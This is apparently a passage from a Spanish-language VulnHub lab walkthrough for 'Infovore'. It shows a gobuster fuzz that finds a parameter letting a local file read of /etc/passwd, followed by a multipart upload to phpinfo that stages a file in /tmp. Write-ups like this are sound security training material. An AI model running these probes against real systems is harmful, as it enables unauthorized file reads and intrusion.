 ```bash
❯ gobuster fuzz -w "/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt" -u "http://192.168.18.144/?FUZZ=/etc/passwd" --exclude-length 4743 -t 100 -o fuzzing
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://192.168.18.144/?FUZZ=/etc/passwd
[+] Method:           GET
[+] Threads:          100
[+] Wordlist:         /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Exclude Length:   4743
[+] User Agent:       gobuster/3.6
[+] Timeout:          10s
===============================================================
Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=1006] [Word=filename] http://192.168.18.144/?filename=/etc/passwd

Progress: 1185254 / 1185255 (100.00%)
===============================================================
Finished
===============================================================
```

Encuentro que el parámetro `filename` existe y nos permite acceder a rutas internas del sistema.

### Subida de archivos

Ahora tenemos que subir archivos para comprobar si podemos escribir en `/tmp`, para eso tendremos que hacer lo siguiente para subir "archivos" con una petición en BurpSuite.

Para esto tenemos que hacer lo siguiente.

1. Interceptar una petición del `phpinfo` y cambiar el método de GET a POST.

2. Eliminar los headers `Content-Type` y `Content-Length` (si están) y añadir el siguiente header: `Content-Type: multipart/form-data; boundary=--test`

3. Añadir lo siguiente en el cuerpo de la petición:

```
----test
Content-Disposition: form-data; name="test"; filename="test.txt"
Content-Type: text/plain

testing123
----test
```

![](@assets/VulnHub/infovore/request.png)

En la respuesta comprobamos que el archivo se ha subido efectivamente a una ruta bajo `/tmp`.

![](@assets/VulnHub/infovore/upload_check.png)
